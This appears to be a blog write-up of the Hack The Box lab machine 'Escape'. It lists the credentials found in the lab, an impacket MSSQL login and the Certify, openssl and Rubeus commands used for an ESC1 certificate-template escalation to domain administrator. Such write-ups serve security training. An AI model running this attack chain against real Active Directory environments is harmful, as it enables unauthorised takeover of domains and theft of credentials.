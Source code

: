 ```yaml
---
title: "Escape"
date: 2025-03-20
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "escape", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Escape

# Escape

## Credentials
# Credentials
| Username                | Password            | Hash | Source                         |
| ----------------------- | ------------------- | ---- | ------------------------------ |
| brandon.brown@sequl.htb |                     |      | SMB-SQL Server Procedures.pdf  |
| PublicUser              | GuestUserCantWrite1 |      |                                |
| sql_svc                 | REGGIE1234ronnie    |      | SQL hash                       |
|                         | NuclearMosquito3    |      | C:\SQLServer\Logs\ERRORLOG.bak |

# Enumeration
## SMB
![screenshot](/assets/images/escape1.png)
## SQL Server Procedures.pdf
![screenshot](/assets/images/escape2.png)

![screenshot](/assets/images/escape3.png)

 n  

# MSSQL
```sh
impacket-mssqlclient PublicUser@10.10.11.202 -windows-auth
```

![screenshot](/assets/images/escape4.png)

# Foothold

![screenshot](/assets/images/escape5.png)

![screenshot](/assets/images/escape6.png)

![screenshot](/assets/images/escape7.png)

![screenshot](/assets/images/escape8.png)

**![screenshot](/assets/images/escape9.png)
## Lateral Movement
![screenshot](/assets/images/escape10.png)

# Privilege Escalation
![screenshot](/assets/images/escape11.png)
![screenshot](/assets/images/escape12.png)

At this point, we need to find a way to elevate our privileges. Looking back at our initial enumeration output from Nmap we can see a lot of certificate related output. This is a strong indication that there is a Certificate Authority running. We can use Certify to enumerate possible misconfiguration in Active Directory Certificate Services.

![screenshot](/assets/images/escape13.png)

```powershell
upload Certify.exe
.\Certify.exe cas
```

![screenshot](/assets/images/escape14.png)

Enumerate vulnerable certificates
```powershell
.\Certify.exe find /vulnerable
```

![screenshot](/assets/images/escape15.png)

Vulnerable template `UserAuthentication`. 
`Authenticated Users` can enroll for this template and since the `msPKI-Certificate-Name-Flag` is present and contains `ENROLLE_SUPPLIES_OBJECT` the template is vulnerable to the [ESC1](https://m365internals.com/2022/11/07/investigating-certificate-template-enrollment-attacks-adcs/) scenario. Essentially, this allows anyone to enroll in this template and specify an arbitrary Subject Alternative Name. Meaning that, we could authenticate as a Domain Administrator by exploiting this attack path. 

# Certify + Rubeus
```powershell
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```

![screenshot](/assets/images/escape16.png)

copy everything from `-----BEGIN RSA PRIVATE KEY-----` to `-----END CERTIFICATE-----` into a file on my host and convert it to a `.pfx` using the command given, entering no password when prompted:

```sh
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![screenshot](/assets/images/escape17.png)

I’ll upload `cert.pfx`, as well as a copy of [Rubeus](https://github.com/GhostPack/Rubeus) (downloaded from [SharpCollection](https://github.com/Flangvik/SharpCollection)), and then run the `asktgt` command, passing it the certificate to get a TGT as administrator:

```powershell
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap
```

![screenshot](/assets/images/escape18.png)

![screenshot](/assets/images/escape19.png)



